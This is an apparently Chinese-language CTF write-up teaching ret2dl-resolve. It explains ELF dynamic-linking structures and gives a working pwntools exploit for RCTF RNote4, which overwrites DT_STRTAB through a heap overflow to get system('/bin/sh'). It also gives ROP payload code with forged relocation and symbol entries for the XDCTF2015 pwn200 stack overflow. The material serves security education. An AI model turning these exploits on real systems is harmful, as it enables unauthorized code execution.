



# 0x00 前言

最近做RCTF，结果pwn一道没做出来（虽然精力全放在更擅长的reverse上了），然后复盘的时候发现RNote4有个关于ret2dl\-resolve的利用，遂在网上查之，发现很多资料讲的不是很清楚，但是还是慢慢琢磨弄懂了。这个技巧貌似是一个挺基础的技巧，玩pwn一段时间了，发现自己还有这种知识遗漏。。。所以这篇文章新手向，大神可以绕道了。。。。

# 0x01 ELF文件格式以及动态链接

我们知道，无论是windows下还是linux下，程序想要调用其他动态链接库的函数，必须要在程序加载的时候动态链接，比方说，windows下，叫作IAT表，linux下，叫作GOT表。调用库函数时，会有个类似call \[xxx\] 或者 jmp \[xxx\]的指令，其中xxx是IAT表或者GOT表的地址。在这里因为是linux的pwn，我们主要讨论GOT表，以及在linux下更为常见的jmp \[xxx\]\.

## linux如何调用库函数

首先一个hello world程序

```c
#include <stdio.h>
int main()
{
    puts("Hello Pwn\n");
    return 0;
}//gcc -m32 -fno-stack-protector -no-pie -s hellopwn.c
```

其中，这个puts是调用的libc这个动态链接库导出的一个函数。编译它，看看puts是怎么被调用的。

```assembly
push    offset s        ; "Hello Pwn\n"
call    _puts ;这里调用puts

_puts:
jmp     ds:off_804A00C ; puts会call到这里，这里就是“jmp [GOT表地址]”的这样一条指令
```

跟一下，看看这个off\_804A00C在**第一次调用**时是什么东西



可以发现，是0x80482e6这个地址，并不直接是libc的puts函数的地址。这是因为linux在程序加载时使用了延迟绑定\(lazy load\)，只有等到这个函数被调用了，才去把这个函数在libc的地址放到GOT表中。接下来，会再push一个0，再push一个dword ptr \[0x804a004\]，待会会说这两个参数是什么意思，最后跳到libc的\_dl\_runtime\_resolve去执行。这个函数的目的，是根据2个参数获取到导出函数（这里是puts）的地址，然后放到相应的GOT表，并且调用它。而这个函数的地址也是从GOT表取并且jmp \[xxx\]过去的，但是这个函数不会延迟绑定，因为所有函数都是用它做的延迟绑定，如果把它也延迟绑定就会出现先有鸡还是先有蛋的问题了。

## ELF关于动态链接的一些关键section

section，segment是什么东西不说了，不知道的话呢谷歌百度一下

### .dynamic

包含了一些关于动态链接的关键信息，在这个hellopwn上它长这样，事实上这个section所有程序都差不多


这个section的用处就是他包含了很多动态链接所需的关键信息，我们现在只关心`DT_STRTAB`, `DT_SYMTAB`, `DT_JMPREL`这三项，这三个东西分别包含了指向`.dynstr`, `.dynsym`, `.rel.plt`这3个section的指针，可以`readelf -S hellopwn`看一下，会发现这三个section的地址跟在上图所示的地址是一样的。

### .dynstr


一个字符串表，index为0的地方永远是0，然后后面是动态链接所需的字符串，0结尾，包括导入函数名，比方说这里很明显有个puts。到时候，相关数据结构引用一个字符串时，用的是**相对这个section头的偏移**，比方说，在这里，就是字符串相对0x804821C的偏移。

### .dynsym



这个东西，是一个符号表（结构体数组），里面记录了各种符号的信息，每个结构体对应一个符号。我们这里只关心函数符号，比方说上面的puts。结构体定义如下

```c
typedef struct
{
  Elf32_Word    st_name; //符号名，是相对.dynstr起始的偏移，这种引用字符串的方式在前面说过了
  Elf32_Addr    st_value;
  Elf32_Word    st_size;
  unsigned char st_info; //对于导入函数符号而言，它是0x12
  unsigned char st_other;
  Elf32_Section st_shndx;
}Elf32_Sym; //对于导入函数符号而言，其他字段都是0
```

### .rel.plt


这里是重定位表（不过跟windows那个重定位表概念不同），也是一个结构体数组，每个项对应一个导入函数。结构体定义如下：

```c
typedef struct
{
  Elf32_Addr    r_offset; //指向GOT表的指针
  Elf32_Word    r_info; 
  //一些关于导入符号的信息，我们只关心从第二个字节开始的值((val)>>8)，忽略那个07
  //1和3是这个导入函数的符号在.dynsym中的下标，
  //如果往回看的话你会发现1和3刚好和.dynsym的puts和__libc_start_main对应
} Elf32_Rel;
```

## \_dl\_runtime\_resolve做了什么

这个想要深入理解的话呢可以去看`glibc/elf/dl-runtime.c`的源码，这里我就不贴了，因为有一堆宏，看着让人晕，我就直接说下他做了哪些事情。

首先说第一个参数，\[0x804a004\]是一个`link_map`的指针，这个结构是干什么的，我们不关心，但是有一点要知道，它包含了`.dynamic`的指针，通过这个`link_map`，`_dl_runtime_resolve`函数可以访问到`.dynamic`这个section



0x08049f14是`.dynamic`的指针，与前面图中一致；而第二个参数，是当前要调用的导入函数在`.rel.plt`中的偏移（不过64位的话就直接是index下标），比方说这里，puts就是0，`__libc_start_main`就是`1*sizeof(Elf32_Rel)=8`。

### \_dl\_runtime\_resolve会

1. 用`link_map`访问`.dynamic`，取出`.dynstr`, `.dynsym`, `.rel.plt`的指针
2. `.rel.plt + 第二个参数`求出当前函数的重定位表项`Elf32_Rel`的指针，记作`rel`
3. `rel->r_info >> 8`作为`.dynsym`的下标，求出当前函数的符号表项`Elf32_Sym`的指针，记作`sym`
4. `.dynstr + sym->st_name`得出符号名字符串指针
5. 在动态链接库查找这个函数的地址，并且把地址赋值给`*rel->r_offset`，即GOT表
6. 调用这个函数

如果阅读libc源码的话会发现实际顺序可能跟我上面所说的有一点偏差，不过意思都一样，我这样说会比较好理解。

# 0x02 ret2dl-resolve 利用

那么，这个怎么去利用呢，有两种利用方式

## 改写.dynamic的DT_STRTAB

这个只有在checksec时`No RELRO`可行，即`.dynamic`可写。因为`ret2dl-resolve`会从`.dynamic`里面拿`.dynstr`字符串表的指针，然后加上offset取得函数名并且在动态链接库中搜索这个函数名，然后调用。而假如说我们能够**改写**这个指针到一块我们能够操纵的内存空间，当resolve的时候，就能resolve成我们所指定的任意库函数。比方说，原本是一个`free`函数，我们就把原本是`free`字符串的那个偏移位置设为`system`字符串，**第一次**调用`free("bin/sh")`（因为只有第一次才会resolve），就等于调用了`system("/bin/sh")`。

例题就是RCTF的RNote4，题目是一道堆溢出，`NO RELRO`而且`NO PIE`溢出到后面的指针可以实现任意地址写。

```c
unsigned __int64 edit()
{
  unsigned __int8 a1; // [rsp+Eh] [rbp-12h]
  unsigned __int8 size; // [rsp+Fh] [rbp-11h]
  note *v3; // [rsp+10h] [rbp-10h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  a1 = 0;
  read_buf((char *)&a1, 1u);
  if ( !notes[a1] )
    exit(-1);
  v3 = notes[a1];
  size = 0;
  read_buf((char *)&size, 1u);
  read_buf(v3->buf, size);                      // heap overflow堆溢出
  return __readfsqword(0x28u) ^ v4;
}

unsigned __int64 add()
{
  unsigned __int8 size; // [rsp+Bh] [rbp-15h]
  int i; // [rsp+Ch] [rbp-14h]
  note *v3; // [rsp+10h] [rbp-10h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  if ( number > 32 )
    exit(-1);
  size = 0;
  v3 = (note *)calloc(0x10uLL, 1uLL);
  if ( !v3 )
    exit(-1);
  read_buf((char *)&size, 1u);
  if ( !size )
    exit(-1);
  v3->buf = (char *)calloc(size, 1uLL); //堆中存放了指针，所以可以通过这个任意写
  if ( !v3->buf )
    exit(-1);
  read_buf(v3->buf, size);
  v3->size = size;
  for ( i = 0; i <= 31 && notes[i]; ++i )
    ;
  notes[i] = v3;
  ++number;
  return __readfsqword(0x28u) ^ v4;
}
```


所以呢，可以先add两个note，然后编辑第一个note使得堆溢出到第二个note的指针，然后再修改第二个note，实现任意写。至于写什么，刚刚也说了，先写`.dynamic`指向字符串表的指针，使其指向一块可写内存，比如`.bss`，然后再写这块内存，使得相应偏移出刚好有个`system\x00`。exp如下

```python
from pwn import *

g_local=True
#e=ELF('./libc.so.6')
#context.log_level='debug'
if g_local:
	sh =process('./RNote4')#env={'LD_PRELOAD':'./libc.so.6'}
	gdb.attach(sh)
else:
	sh = remote("rnote4.2018.teamrois.cn", 6767)

def add(content):
	assert len(content) < 256
	sh.send("\x01")
	sh.send(chr(len(content)))
	sh.send(content)

def edit(idx, content):
	assert idx < 32 and len(content) < 256
	sh.send("\x02")
	sh.send(chr(idx))
	sh.send(chr(len(content)))
	sh.send(content)

def delete(idx):
	assert idx < 32
	sh.send("\x03")
	sh.send(chr(idx))

#伪造的字符串表，(0x457-0x3f8)刚好是"free\x00"字符串的偏移
payload = "C" * (0x457-0x3f8) + "system\x00"
#先新建两个notes
add("/bin/sh\x00" + "A" * 0x10)
add("/bin/sh\x00" + "B" * 0x10)
#溢出时尽量保证堆块不被破坏，不过这里不会再做堆的操作了其实也无所谓
edit(0, "/bin/sh\x00" + "A" * 0x10 + p64(33) + p64(0x18) + p64(0x601EB0))
#将0x601EB0，即.dynamic的字符串表指针，写成0x6020C8
edit(1, p64(0x6020C8))

edit(0, "/bin/sh\x00" + "A" * 0x10 + p64(33) + p64(0x18) + p64(0x6020C8))
#在0x6020C8处写入伪造的字符串表
edit(1, payload)

#会第一次调用free，所以实际上是system("/bin/sh")被调用，如前面所说
delete(0)
sh.interactive()
```

## 操纵第二个参数，使其指向我们所构造的Elf32_Rel

如果`.dynamic`不可写，那么以上方法就没用了，所以有第二种利用方法。要知道，前面的`_dl_runtime_resolve`在第二步时

> `.rel.plt + 第二个参数`求出当前函数的重定位表项`Elf32_Rel`的指针，记作`rel`

这个时候，`_dl_runtime_resolve`并没有检查`.rel.plt + 第二个参数`后是否造成越界访问，所以我们能给一个很大的`.rel.plt`的offset（64位的话就是下标），然后使得加上去之后的地址指向我们所能操纵的一块内存空间，比方说`.bss`。

然后第三步

> `rel->r_info >> 8`作为`.dynsym`的下标，求出当前函数的符号表项`Elf32_Sym`的指针，记作`sym`

所以在我们所伪造的`Elf32_Rel`，需要放一个`r_info`字段，大概长这样就行`0xXXXXXX07`，其中XXXXXX是相对`.dynsym`表的下标，注意不是偏移，所以是偏移除以`Elf32_Sym`的大小，即除以`0x10`（32位下）。然后这里同样也没有进行越界访问的检查，所以可以用类似的方法，伪造出这个`Elf32_Sym`。至于为什么是07，因为这是一个导入函数，而导入函数一般都是07，所以写成07就好。

然后第四步

> `.dynstr + sym->st_name`得出符号名字符串指针

同样类似，没有进行越界访问检查，所以这个字符串也能够伪造。

所以，最终的利用思路，大概是


构造ROP，跳转到resolve的PLT，`push link_map`的位置，就是上图所示的这个地方。此时，栈中必须要有已经伪造好的指向伪造的`Elf32_Rel`的偏移，然后是返回地址（`system`的话无所谓），再然后是参数（如果是`system`函数的话就要是指向`"/bin/sh\x00"`的指针）

最后来道经典例题，

```c
int __cdecl main(int a1)
{
  size_t v1; // eax
  char buf[4]; // [esp+0h] [ebp-6Ch]
  char v4; // [esp+18h] [ebp-54h]
  int *v5; // [esp+64h] [ebp-8h]

  v5 = &a1;
  strcpy(buf, "Welcome to XDCTF2015~!\n");
  memset(&v4, 0, 0x4Cu);
  setbuf(stdout, buf);
  v1 = strlen(buf);
  write(1, buf, v1);
  vuln();
  return 0;
}
ssize_t vuln()
{
  char buf[108]; // [esp+Ch] [ebp-6Ch]

  setbuf(stdin, buf);
  return read(0, buf, 256u); //栈溢出
}
//gcc -m32 -fno-stack-protector -no-pie -s pwn200.c
```

明显的栈溢出，但是没给libc，ROPgadget也少，所以要用ret2dl\-resolve。

利用思路如下:

1. 第一次调用`read`函数，返回地址再溢出成`read`函数，这次参数给一个`.bss`的地址，里面放我们的payload，包括所有伪造的数据结构以及ROP。注意ROP要放在数据结构的前面，不然ROP调用时有可能污染我们伪造的数据结构，而且前面要预留一段空间给ROP所调用的函数用。调用完第二个`read`之后，ROP到`leave; retn`的地址，以便切栈切到在`.bss`中我们构造的下一个ROP链

   ```python
   payload1 = "A" * 108
   payload1 += p32(NEXT_ROP) # ebp会在这里被pop出来，到时候leave就可以切栈
   payload1 += p32(READ_ADDR)
   payload1 += p32(LEAVE_RETN)
   payload1 += p32(0)
   payload1 += p32(BUFFER - ROP_SIZE)
   payload1 += p32(0x100)
   payload1 += "P" * (0x100 - len(payload1))
   sh.send(payload1)
   ```

2. 第二次调用`read`函数，此时要`send`ROP链以及所有相关的伪造数据结构

```python

fake_Elf32_Rel = p32(STRLEN_GOT)
fake_Elf32_Rel += p32(FAKE_SYMTAB_IDX)

fake_Elf32_Sym = p32(FAKE_STR_OFF)
fake_Elf32_Sym += p32(0)
fake_Elf32_Sym += p32(0)
fake_Elf32_Sym += chr(0x12) + chr(0) + p16(0) # 其它字段直接照抄IDA里面的数据就好

strings = "system\x00/bin/sh\x00\x00"

rop = p32(0) # pop ebp, 随便设反正不用了
rop += p32(DYN_RESOL_PLT) # resolve的PLT，就是前面说的push link_map那个位置
rop += p32(FAKE_REL_OFF) # 伪造的重定位表OFFSET
rop += "AAAA" # 返回地址，不用了随便设
rop += p32(BIN_SH_ADDR) # 参数，"/bin/sh"

payload2 = rop + fake_Elf32_Rel + fake_Elf32_Sym + strings

sh.send(payload2)
```

至于offset这些东西要自己慢慢撸，反正我搞了挺久的。。。就在IDA里把地址copy出来然后慢慢算偏移就好了。。。

完整exp写的有点丑，放附件了。

PS: 其他一些大佬博客的exp我没有很看懂。。。不知道为啥要写那么长。。。我是弄懂了方法就按照自己的思路写的，不过也对就是了。。。

然后貌似有个自动得出ROP的工具叫作[roputils](https://github.com/inaz2/roputils)，这样就不用自己搞这么一串ROP了。。。不过用工具前还是要先搞懂原理的不然就成脚本小子了嘛。。。

## 伪造link_map?

貌似也可行，而且64位下`link_map+0x1c8` 好像要置0，所以可能要自己伪造`link_map`。但是`link_map`结构有点复杂，网上也没有关于这种利用方式的资料，以后有空会再研究一下。。。

# 0x03 参考资料

[http://phrack.org/issues/58/4.html](http://phrack.org/issues/58/4.html)

[http://pwn4.fun/2016/11/09/Return-to-dl-resolve/](http://pwn4.fun/2016/11/09/Return-to-dl-resolve/)

[http://showlinkroom.me/2017/04/09/ret2dl-resolve/](http://showlinkroom.me/2017/04/09/ret2dl-resolve/)

[https://0x00sec.org/t/linux-internals-the-art-of-symbol-resolution/1488](https://0x00sec.org/t/linux-internals-the-art-of-symbol-resolution/1488)

[https://github.com/firmianay/CTF-All-In-One/blob/master/doc/6.1.3_pwn_xdctf2015_pwn200.md](https://github.com/firmianay/CTF-All-In-One/blob/master/doc/6.1.3_pwn_xdctf2015_pwn200.md)

[https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-di-frederico.pdf](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-di-frederico.pdf)

